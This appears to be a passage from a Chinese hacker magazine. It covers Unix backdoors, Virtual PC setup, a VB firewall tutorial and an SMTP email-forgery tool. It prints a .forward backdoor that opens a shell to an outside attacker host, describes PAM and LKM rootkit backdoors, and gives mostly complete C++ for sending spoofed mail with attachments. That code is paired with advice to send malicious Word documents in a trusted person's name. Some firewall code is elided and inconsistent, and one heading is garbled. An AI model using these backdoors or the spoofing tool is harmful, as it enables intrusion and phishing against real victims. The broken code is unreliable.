.forward 后门：若服务器开放 Sendmail，入侵者可在 .forward 中执行 shell 脚本，原理与 crontab 类似。

```text
"|/usr/local/x11/bin/xterm -display hacksys.other.dom:0.0"
-e /bin/sh
```

PAM 后门：很多服务依赖 PAM 认证。若篡改 PAM 库（如 PAM_PWDB.SO），可在多个服务中植入 MAGIC PASSWORD，从而获取访问权。

### 内核后门

内核是 Unix 的核心。库级别校验方法不适用于内核级后门，静态链接也难识别。内核后门隐蔽性强，常部署在关键网络节点，对攻击者技术要求更高。

文章提到通过修改系统调用实现隐藏与重定向，如过滤 ls 输出、隐藏进程、重定向执行文件、隐藏网络连接等，进而引出 LKM Rootkit。

LKM 后门（如 adore）可隐藏文件、隐藏进程、以 root 执行、提供卸载功能，支持多个内核版本。相比传统后门更复杂强大，也更难发现。

一旦系统被攻破并安装 LKM rootkit，通常只能通过网络侧分析（如 sniffer 结果）或借助外部可信系统进行检测。

常见后门技术除文中所列外还有 Boot 块后门、库后门等。由于 LKM Rootkit 流行，部分传统手法有所减少，但仍需了解其原理。

防御要点：加强系统安全基线、避免弱口令、及时打补丁、积极审计日志、做好备份。若确认被入侵，应重装系统并恢复数据，同时使用 RKDET、CHKROOTKIT、TRIPWIRE 等工具持续审计。

最后总结：最好的安全措施就是防止攻击者入侵系统。

### 怎样使用虚拟机

茶杯里的勿忘

相信许多读者已经看过在 2003 年第 11 期的 x 档案中钟毅撰写的《菜鸟的实验室——虚拟机》一文，在文中作者告诉了我们怎样在虚拟机中实验各种危险的软件，但是他的侧重点主要放在了怎样在虚拟机里做实验。但是许许多多的菜鸟，甚至一些老鸟，对于虚拟机软件并不是十分了解，下面我就本着“人人为我，我为人人”的精神向大家详细介绍虚拟机的使用方法。

首先我们在使用虚拟机之前先来明确一下虚拟机的概念。虚拟机软件就是可以在一台电脑上虚拟出一台甚至数台相对独立的计算机。这些虚拟出来的计算机具有独立的、完整的硬件系统，可以和真实的电脑一样设置 BIOS，对虚拟硬盘进行分区、格式化，安装运行各种操作系统软件。由于各个虚拟机之间是独立的，我们还可以在一台电脑上同时运行多个操作系统（也就是多个虚拟出来的计算机在一台电脑中同时运行），而且我们还可以将虚拟系统通过虚拟网卡连接起来，组成一个局域网。怎么样，神奇吧？

目前虚拟机软件主要有两种，一种是 Connectix 的 Virtual PC，另一种是 VMware 公司的 VMware Workstation。其中 Virtual PC 简单易用，运行速度快，有许多很实用的功能，下面我们就先来介绍 Virtual PC 的使用方法。我用的是 Virtual PC 5.1 版，其他版本大同小异。软件安装很简单，一路 Next 就可以了。我们在了解了虚拟机的原理之后就开始动手配置自己的虚拟机了。OK~继续！完整配置一台虚拟机一般要经过：创建虚拟机、配置虚拟机、安装各式各样的系统、安装附加模块、进行网络设置等几个步骤。

### 创建虚拟机

安装完成虚拟机软件后运行虚拟机，第一次会出现“创建虚拟机向导（PC Setup Wizard）”，如图 1。


用户可以通过该向导设置虚拟机的名称、操作系统类型、内存大小、磁盘映像文件的格式、大小及路径（如图 2 至图 7），当然你也可以创建一台默认虚拟机，然后通过“Setting”来修改虚拟机配置，完成创建。

虚拟机创建完成后，我们再来设置虚拟机的 IDE 驱动器。Virtual PC 可以通过菜单命令模式使用主机的光驱和软驱（包括虚拟光驱如东方光驱魔法师、Daemon Tools 等），也可以使用映像文件，而且可以随时在虚拟机中对虚拟光驱进行“热插拔”。但是不知道为什么在 Windows 98/Me 系统下我使用不了主机光驱，NT/2K/XP/2003 下则可以使用。


图中划线的是把主机的物理驱动器添加到虚拟机中。

Virtual PC 能够通过“虚拟磁盘向导（Virtual Disk Wizard）”将主机硬盘添加到虚拟机里（如果你没有把握请不要这么做，因为你要是这么做，你在虚拟机里的操作将对主机硬盘产生影响），参见上图 5。

点击“共享文件夹”选择你要共享的文件夹，我想共享我 F 盘游戏的文件夹。如果你嫌麻烦也可以点击“总是共享”，这样一来就可以一直共享，然后再选择驱动器盘符，这里我选的是 W 盘。确定完成后在虚拟机里看看“我的电脑”里是不是多了一个网络驱动器 W 盘，如图 9 和图 10。


### 安装操作系统

Virtual PC 5.1 中，如果用户创建的是 Windows 或 DOS，程序会自动将整个虚拟硬盘分区并格式化，并且根据用户创建的操作系统类型自动将文件系统设置成 FAT 或 FAT32 格式，硬盘不需要分区和格式化就可以直接安装操作系统。当然用户也可以重新调整硬盘分区，这一特性极大地方便了我们用户的使用，尤其是初级用户。

### 安装附加模块

Virtual PC 5.1 安装完毕后，可以通过安装附加模块（Additions）来提高虚拟机运行效率，并且还增加了许多功能。例如，在没有安装附加模块以前，虚拟机鼠标是被限定在虚拟机中的，用户必须按下默认热键“右 Alt 键”（可以自定义），在全屏模式下按“Alt+Enter”才可以切换到主机中。安装附加模块后可以把鼠标在虚拟机和主机之间来回移动。通过共享文件夹我们可以很方便地在主机与虚拟机之间交换数据。如图 8。


### 设置网络连接

架设虚拟网络是虚拟机软件的一项重要功能。如果你的电脑能上网，那么你在安装完成虚拟机后不需进行任何配置就可以直接上网；但是你要是利用虚拟机组建局域网或者建立虚拟网络，那么你就要进行一下配置了。Virtual PC 可以在主机没有真实网卡的情况下实现虚拟机和主机之间以及各虚拟机之间的网络连接，但是 Virtual PC 没在主机中模拟网卡，如果用户计算机中没有网卡，则需要在主机中安装 Microsoft Loopback Adapter 软网卡。

Virtual PC 为用户提供了 2 种网络连接模式，用户可以在新建虚拟机时利用“创建虚拟机向导”为新建的虚拟机选择一种网络连接方式，也可以在创建完成以后在“配置编辑器”中修改，如图 11。


怎么样？我想大家已经掌握了虚拟机的使用技巧，不是很简单。自己动手实践一下吧，如果在实践中遇到什么问题可与我在论坛上交流（http://www.hackerxfiles.net/bbs）。如果文章有什么错误之处，还请各位指出！

## 揭高层于自己的


浪心

好久都没有写文章了，由于时间和其他原因，浪心消失了很久，终于回家了。奋斗了 25 小时火车后，终于回到了麦加……今天作为回来的处女作，浪心毫无保留地将防火墙的开发技术讲给大家，希望大家喜欢。

好，废话少说，切入正题。防火墙主要由日志、网络状态列表、网络状态控制（如拦截）组成，所以我们要三个界面：一个是主界面（状态列表），一个是日志界面，一个是控制界面。

打开 VB 新建一个工程，添加一个窗体。一共要三个窗体、一个模块。太复杂了，我也在考虑怎么写才能让大家理解。文章写得不好，还请大家包涵。实在不明白的，去看我公开的源文件吧（光盘里有）。下面说明一下原理：

### 一、监控 TCP 连接

黑客程序或木马程序的本质是实现数据传输。TCP 和 UDP 是两个最常用来承载数据传输的协议，它们都使用逻辑监听端口的方法来完成数据传输。

实时监控所有端口的连接情况，及时对异常连接发出警告并提示用户关闭异常连接，就可以有效地达到防御目的。

使用微软的 IP 助手库函数（iphlpapi.dll）是一个捷径。其中的 GetTcpTable 函数能返回当前系统中全部有效的 TCP 连接。

```vb
Declare Function GetTcpTable Lib "iphlpapi.dll" (ByRef pTcpTable As MIB_TCPTABLE, ByRef pdwSize As Long, ByVal bOrder As Long) As Long
```

其中参数一是 TCP 连接表缓冲区的指针，参数二是缓冲区大小（当缓冲区不够大时，该参数返回实际需要的大小），参数三指示连接表是否需要按“Local IP”“LocalPort”“Remote IP”“Remote Port”依次进行排序。对广播 UDP 连接表，可使用 GetUdpTable 函数完成。

### 二、异常警告及删除连接

通过定时比较前后两个 TCP 连接表，我们可以立即发现异常并发出警告。收到警告信号后，我们应首先将可疑连接删除掉，然后再仔细查找系统中是否有安全漏洞或有可疑进程在工作。IP 助手库函数中的 SetTcpEntry 函数可以帮助我们删除可疑连接。

```vb
Public Declare Function SetTcpEntry Lib "IPhlpAPI" (pTcpRow As MIB_TCPROW) As Long
' This is used to close an open port.
```

在调用此函数之前，应将欲删连接的状态置为 MIB_TCP_STATE_DELETE_TCB（删除）。MIB_TCP_STATE_DELETE_TCB 也是目前唯一可在运行时设置的状态。

好了，有了这些，一个防火墙的基本原理以及方法已经知道了，哈哈，我们想将这些函数、API 封装起来。建立一个类模块，名称为 modNetstat，代码如下：

```vb
----------------modNetstat----------------
Option Explicit

'定义一些ICMP协议
Public MIBICMPSTATS As MIBICMPSTATS
Public Type MIBICMPSTATS
    dwEchos As Long
    dwEchoReps As Long
End Type

Public MIBICMPINFO As MIBICMPINFO
Public Type MIBICMPINFO
    icmpOutStats As MIBICMPSTATS
End Type

Public MIB_ICMP As MIB_ICMP
Public Type MIB_ICMP
    stats As MIBICMPINFO
End Type

'GetIcmpStatistics函数能够让你查看当前ICMP数据报的流量
Public Declare Function GetIcmpStatistics Lib "iphlpapi.dll" (pStats As MIBICMPINFO) As Long
Public Last_ICMP_Cnt As Integer

'定义一些TCP协议
Type MIB_TCPROW
    dwState As Long
    dwLocalAddr As Long
    dwLocalPort As Long
    dwRemoteAddr As Long
    dwRemotePort As Long
End Type

Type MIB_TCPTABLE
    dwNumEntries As Long
    table(100) As MIB_TCPROW
End Type

Public MIB_TCPTABLE As MIB_TCPTABLE

'GetTcpTable函数能返回当前系统中全部有效的TCP连接
Declare Function GetTcpTable Lib "iphlpapi.dll" (ByRef pTcpTable As MIB_TCPTABLE, ByRef pdwSize As Long, ByVal bOrder As Long) As Long

'SetTcpEntry函数可以帮助我们删除可疑连接
Public Declare Function SetTcpEntry Lib "IPhlpAPI" (pTcpRow As MIB_TCPROW) As Long
'This is used to close an open port.

'定义连接状态为13个
Public IP_States(13) As String
```

```vb
Private Last_Tcp_Cnt As Integer

' 定义 Winsock 相关内容
Private Const AF_INET = 2
Private Const IP_SUCCESS As Long = 0
Private Const MAX_WSADescription = 256
Private Const MAX_WSASYSStatus = 128
Private Const SOCKET_ERROR As Long = -1
Private Const WS_VERSION_REQD As Long = &H101

Type HOSTENT
    h_name As Long
    h_aliases As Long
    h_addrtype As Integer
    h_length As Integer
    h_addr_list As Long
End Type

Type servent
    s_name As Long
    s_aliases As Long
    s_port As Long
    s_proto As Long
End Type

Private Type WSADATA
    wVersion As Integer
    wHighVersion As Integer
    szDescription(0 To MAX_WSADescription) As Byte
    szSystemStatus(0 To MAX_WSASYSStatus) As Byte
    wMaxSockets As Long
    wMaxUDPDG As Long
    dwVendorInfo As Long
End Type

Public Declare Function ntohs Lib "WSOCK32.DLL" (ByVal netshort As Long) As Long
Private Declare Function inet_addr Lib "WSOCK32.DLL" (ByVal CP As String) As Long
Private Declare Function inet_ntoa Lib "WSOCK32.DLL" (ByVal inn As Long) As Long
Private Declare Function gethostbyaddr Lib "WSOCK32.DLL" (...)
Private Declare Function gethostbyname Lib "WSOCK32.DLL" (...)
Private Declare Function WSAStartup Lib "WSOCK32.DLL" (...)
Private Declare Function WSACleanup Lib "WSOCK32.DLL" () As Long
Private Declare Sub RtlMoveMemory Lib "kernel32" Alias "RtlMoveMemory" (...)
Declare Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (...)
Declare Function lstrlen Lib "kernel32" (ByVal lpString As Any) As Integer

Private Blocked As Boolean
' 设定网络状态
```

```vb
Sub InitStates()
    IP_States(0) = "未知"
    IP_States(1) = "已关闭"
    IP_States(2) = "监听"
    IP_States(3) = "发送同步空闲字符"
    IP_States(4) = "接收同步空闲字符"
    IP_States(5) = "数据交换"
    IP_States(6) = "结束等待"
    IP_States(7) = "结束等待2"
    IP_States(8) = "关闭等待"
    IP_States(9) = "关闭中"
    IP_States(10) = "最后确认"
    IP_States(11) = "连接等待"
    IP_States(12) = "删除TCP连接"
End Sub

Public Function GetAscIP(ByVal inn As Long) As String
    Dim nStr As Long
    Dim IpStr As Long
    Dim retString As String
    retString = String(32, 0)
    IpStr = inet_ntoa(inn)
    If IpStr Then
        nStr = lstrlen(IpStr)
        If nStr > 32 Then nStr = 32
        CopyMemory ByVal retString, ByVal IpStr, nStr
        retString = Left(retString, nStr)
        GetAscIP = retString
    Else
        GetAscIP = "无法取得IP"
    End If
End Function

' 日志处理模块
Public Function mlog(RenA As String, RenP As String, LocP As String, Txt As String)
    Dim ff As Long
    ff = FreeFile
    If ff <> 14 Then ff = 14
    Open App.Path & "\20ntPFlog.log" For Append As #ff
    Write #ff, Time & " " & Date, RenA, RenP, LocP, Txt
    Frmlog.lstLog.ListItems.Add ...
    Close #ff
End Function
```

好了，封装好了函数以及 API 数据库，下面是设计界面，以及功能结合了：）

先建立主窗体，这里将名称改为 `frmMain`，我不想抹杀你们的创意，但是为了代码的最后调试成功，请你不要改变：）

点工程——部件，插入 `Microsoft Windows Common Controls 6.0 (SP4)`，如图1：

## 黑客新语


前面点上小钩，确定：）

回到桌面，双击 Toolbar，加入后，在上面右键属性。

依次插入按钮，如图2：


| 索引 | 标题 | 样式 | 图像 |
|---|---|---|---|
| 1 | 停止拦截 | 1—tbrCheck | 暂时不说 |
| 2 | 刷新 | 0—tbrDefault |  |
| 3 | （空） | 3—tbrSeparator |  |
| 4 | 查看日志 | 0—tbrDefault |  |

插入 2 个 ImageList 控件，命名为 `imgHot` 和 `imgCold`，依次插入图片，其实就是“停止拦截”等按钮上面显示的图片；在 Toolbar 上面右键属性，如图3：


修改图像列表为 `imgCold`，热图像列表为 `imgHot`。好了，在图2，我们看到图像后面的数字，这就是 `imgCold` 图片列表的数字：）

加入 ListView 控件。

右键——属性——列首：

| 索引 | 文本 | 宽度 |
|---|---|---|
| 1 | 远程IP | 自己调节吧：） |
| 2 | 远程端口 |  |
| 3 | 本地端口 |  |
| 4 | 状态 |  |

好了，再加入一个 Timer 控件，名称为 `tmrRefresh`，这个是用来刷新网络状态列表的。

将 `Interval` 设定为 250。

最后完成界面如图4：


添加代码如下：

```vb
' 定义一些变量
Private lC As Integer
Public Blk As String

Private a_RemA(1000) As String
Private a_LocP(1000) As String
Private a_RemP(1000) As String

Private a_Count As Long

' 下面是刷新网络状态的函数
Public Function RefreshTable(Optional force As Boolean = False)
    On Error Resume Next

    Dim tcpt As MIB_TCPTABLE, l As Long
    Dim x As Integer, i As Integer
    Dim RemA As String, LocP As String, RemP As String

    l = Len(MIB_TCPTABLE)
    GetTcpTable tcpt, l, 0
    x = tcpt.dwNumEntries

    If x < lC Or x > lC Or force Then
        lC = x
        ListView1.ListItems.Clear

        For i = 0 To x - 1
            RemA = GetAscIP(tcpt.table(i).dwRemoteAddr)
            RemP = ntohs(tcpt.table(i).dwRemotePort)
            LocP = ntohs(tcpt.table(i).dwLocalPort)
            ListView1.ListItems.Add , , i & "." & RemA
            ListView1.ListItems(ListView1.ListItems.Count).SubItems(1) = RemP
            ListView1.ListItems(ListView1.ListItems.Count).SubItems(2) = LocP
            ListView1.ListItems(ListView1.ListItems.Count).SubItems(3) = modNetstat.IP_States(state)
        Next i
    End If
End Function

Private Sub Form_Load()
    ' 调用网络状态函数
    modNetstat_InitStates
    ' 开始刷新网络状态列表
    RefreshTable
End Sub

Private Sub ListView1_MouseUp(Button As Integer, Shift As Integer, x As Single, y As Single)
    ' 判断右键
    If Button = 2 And ListView1.ListItems.Count > 0 Then
        ' 调用菜单以显示当前项目
        frmMain.PopupMenu frmMenu.mnuConn
    End If
End Sub

Private Sub tmrRefresh_Timer()
    ' 定时刷新网络状态列表
    RefreshTable
End Sub

Public Sub Toolbar1_ButtonClick(ByVal Button As MSComctlLib.Button)
    Select Case Button.Index
    Case 1
        ' 停止功能按钮
        If Button.Caption = "停止" Then
            Button.Caption = "继续"
            Button.ToolTipText = "继续工作"
            tmrRefresh.Enabled = False
        Else
            Button.Caption = "停止"
            Button.ToolTipText = "停止工作"
            tmrRefresh.Enabled = True
        End If
    Case 2
        ' 刷新按钮功能
        RefreshTable
    Case 3
        ' 显示日志
        Frmlog.Show
    End Select
End Sub
```

好了，下面定义控制按钮，也就是网络状态上右键显示的拦截连接。新建一个窗体，命名为 `frmMenu`，只需要有一个菜单，如图5。


修改菜单属性：

| 标题 | 名称 |
|---|---|
| mnuConn | mnuConn |
| 拦截连接 | mnuDis |

如图6：


好了，添加代码如下：

```vb
Private Sub mnuDis_Click()
    Dim tcpt As MIB_TCPTABLE
    Dim i As Long
    Dim l As Long
    Dim RemA As String, RemP As String, LocP As String

    i = Right(frmMain.ListView1.SelectedItem.Key, Len(frmMain.ListView1.SelectedItem.Key) - 1) + 1

    RemA = frmMain.ListView1.ListItems(i)
    RemP = frmMain.ListView1.ListItems(i).SubItems(1)
    LocP = frmMain.ListView1.ListItems(i).SubItems(2)

    l = Len(MIB_TCPTABLE)
    GetTcpTable tcpt, l, 0

    tcpt.table(i - 1).dwState = 12
    SetTcpEntry tcpt.table(i - 1)
    DoEvents

    ' 写入日志
    Log RemA, RemP, LocP, "拦截连接"
End Sub
```

好了，最后是一个日志操作窗体，建立一个名称为 `Frmlog` 的窗体。


ListView 属性：

| 属性 | 值 |
|---|---|
| 名称 | lstLog |
| 列标题1 | 文本 |
| 列标题2 | 时间 |
| 列标题3 | 远程端口 |
| 列标题4 | 本地端口 |
| 列标题5 | 说明 |

添加代码如下：

```vb
Private Sub Command1_Click()
    Dim i As String
    ' ...
End Sub

r = MsgBox("...", vbQuestion + vbYesNo, "...")
If r = vbYes Then
    Dim ff As Long
    ff = FreeFile
    Open App.Path & "\\20ntPFlog.log" For Output As #ff
    ...
    Close #ff
    lstLog.ListItems.Clear
End If
End Sub
```

木马，如图8，第一次获得密码是没拦截，拦截后提示无法连接。


好了，我们完成了对防火墙的简单操作，文章还有很大改进余地，大家可以发挥自己的思维去完善。

## SMTP 与邮件伪造技术研究

SMTP 中文解释为“简单邮件传输协议”，平时发送电子邮件就是利用这个协议进行传输。电子邮件经常会被一些黑客用来进行攻击，如伪造、邮件炸弹等。下面介绍电子邮件利用的技术和实现方法。

首先简单介绍 SMTP 协议。SMTP 服务默认端口为 25。下面以 163 邮件服务器为例，说明邮件伪造的大致流程。

- 1. 连接到邮件服务器后发送 `HELO` 命令，例如 `HELO root`，成功一般返回 `250`。
- 2. 发送发件人地址，例如 `MAIL FROM:hacker@hacker.com`，成功返回 `250`。
- 3. 指定收件人地址，例如 `RCPT TO:xiaoji198288@163.com`。
- 4. 发送 `DATA`，然后发送邮件正文，最后以 `<CRLF>.<CRLF>` 结束正文。
- 5. 发送 `QUIT`，断开与服务器的连接。

下面介绍代码和注释部分。首先定义一个 `CMAIL` 类。

```cpp
class CEmail {
public:
    void CBase64Encode(char* pSr, char* pDes, int nSourLen); // BASE64 编码
    void Sender(); // 发送邮件
    CString m_FileName; // 附件文件名
    CString m_MailDes;  // 收件人邮箱
    CString m_ServerIP; // MX 记录 IP
    SOCKET m_Sock;      // 套接字
    CEmail(CString FileName, CString SIP="", CString DES="");
    virtual ~CEmail();
};
```

下面简单介绍 MX 邮件服务器查询方法和 BASE64 编码。MX 记录查询：在 CMD 下输入 `nslookup -qt=MX 163.com` 回车。

```text
G:\>nslookup -qt=MX 163.com
*** Can't find server name for address ...
Non-authoritative answer:
163.com MX preference = 50, mail exchanger = m203.163.com
163.com MX preference = 50, mail exchanger = m209.163.com
```

202.108.44.203、202.108.44.209、202.108.44.210 都是 MX 邮件服务器 IP。我们选用的第一个 202.108.44.203 作为试验对象。

## BASE64 编码

由于 SMTP 仅仅局限 7 位 ASCII 码，由于电子邮件的用途广泛，于是出现了 MIME。MIME 没有改动 SMTP，只是在遵循 SMTP 规则上对其进行了一些扩充，包括邮件头部和非 ASCII 码的编码规则，用得最广泛的就是 BASE64 编码。由于附件不一定是纯文本格式，大多都是流式文件即二进制文件，所以要对二进制文件进行编码。首先将 24 位（3 个字节）数据分为 4 个 6 位组，6 位一共 64 种值，分别对应 A-Z、a-z、0-9、+/。

用 `=` 和 `==` 分别表示最后一组只有 8 位或者为 16 位的数据。例如：`01001001 00110001 01111001` 对应编码为：`010010 010011 000101 111001`。BASE64 编码：`STE5`。

基本的都介绍完了，下面就是发送邮件的主体部分了。

```cpp
CEmail::CEmail(CString FileName, CString SIP, CString DES)
{
    m_FileName = FileName;
    m_ServerIP = SIP;
    m_MailDest = DES;
    m_sock = NULL;
}

void CEmail::Sender()
{
    if ((m_sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == INVALID_SOCKET)
    {
        AfxMessageBox("m_sock False");
        exit(0);
    }

    SOCKADDR_IN addr_in = {0};
    char* pbuf = NULL;
    pbuf = m_FileName.GetBuffer(m_FileName.GetLength());

    addr_in.sin_family = AF_INET;
    addr_in.sin_port = htons(25);
    addr_in.sin_addr.S_un.S_addr = inet_addr(m_ServerIP);

    while (1)
    {
        int ret = connect(m_sock, (struct sockaddr*)&addr_in, sizeof(addr_in));
        if (ret != SOCKET_ERROR) break;
        Sleep(1000);
    }

    char* pString = "helo root\r\n";
    char buf[256] = {0};
    send(m_sock, pString, strlen(pString), 0);
}
```

```cpp
// 发送命令
Sleep(1000);
recv(m_sock, buf, 256, 0);
memset(buf, 0, 256);

CString tmp = "";
tmp = "mail from: LionD8@CQSN.com\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);   // 发送 mail from 命令

recv(m_sock, buf, 256, 0);
memset(buf, 0, 256);
tmp = "rcpt to:" + m_MailDest + "\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);   // 发送 rcpt to 命令

recv(m_sock, buf, 256, 0);
memset(buf, 0, 256);
tmp = "data\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);   // 发送 data 命令

// MIME 头部
tmp = "Subject:";
tmp += m_Title;
tmp += "\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "From:" + m_SenderName + "\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "To:" + m_MailDest + "\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "Content-Type: multipart/mixed; boundary=qwertyuiop\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "\r\n--qwertyuiop\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

// 正文
m_StringText += "\r\n";
send(m_sock, m_StringText, m_StringText.GetLength(), 0);

// 附件
tmp = "--qwertyuiop\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "Content-Type: application/octet-stream; name=";
tmp += pbuf;
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "Content-Transfer-Encoding: base64\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

tmp = "Content-Disposition: attachment; filename=";
tmp += pbuf;
tmp += "\r\n\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);

HANDLE hFile = CreateFile(m_FileName, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_FLAG_SEQUENTIAL_SCAN, 0);
if (hFile == INVALID_HANDLE_VALUE)
{
    AfxMessageBox("could not open file");
    return;
}

HANDLE hMapping = CreateFileMapping(hFile, 0, PAGE_READONLY | SEC_COMMIT, 0, 0, 0);
if (!hMapping)
{
    AfxMessageBox("mapping failed");
    CloseHandle(hFile);
    return;
}

if (!(basepointer = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0)))
{
    AfxMessageBox("view failed!");
    CloseHandle(hMapping);
    CloseHandle(hFile);
    return;
}

// 把文件映射到内存。
DWORD cb = GetFileSize(hFile, NULL);          // 取得文件大小
char* t = (char*)malloc((cb / 3) * 4 + 4);   // 分配 BASE64 编码内存
memset(t, 0, (cb / 3) * 4 + 4);
CBase64Encode((char*)basepointer, t, cb);    // 编码
send(m_sock, (char*)t, (cb / 3) * 4 + 4, 0); // 把编码后的文件发送出去

tmp = "\r\n\r\n--qwertyuiop--\r\n";
send(m_sock, tmp, tmp.GetLength(), 0);
UnmapViewOfFile(basepointer);
CloseHandle(hMapping);
CloseHandle(hFile);

tmp = "\r\n\r\n.\r\n"; // 正文传输结束
send(m_sock, tmp, tmp.GetLength(), 0);
recv(m_sock, buf, 256, 0);
send(m_sock, "quit\n", 5, 0);
AfxMessageBox("邮件发送完成");
closesocket(m_sock);
```

## 黑客新语

上面介绍完了发送邮件的主体函数。可以看出邮件的发送过程还是严格按照 SMTP 的 5 个步骤来的。不过在 DATA 命令后面的 MIME 头部和附件的发送部分稍微有点烦琐。我们给 xiaoji198288@163.com 伪造一封邮件。


图 1

如图 1，发邮件人 liond8@liond8.com 是我们自己伪造的。同时还发了一个 kill.exe 的附件。如果黑客在收集了一些有用的情报后，就可以自己伪造电子邮件进行攻击。再利用最新的 WORD 的溢出，用一个可信任的人的名义，带上一个有病毒的 WORD 文档。嘿嘿，是不是很可怕啊。

利用电子邮件攻击的方式还有一些，比如比较经典的就是利用 MIME 漏洞，那也是很多病毒采用的技术。看了上面的一些介绍及其实现方法，我相信基本上对邮件的伪造有大致的了解了吧。自己参考上面实现过程，自己动手打造一个属于自己的电子邮件黑侠吧。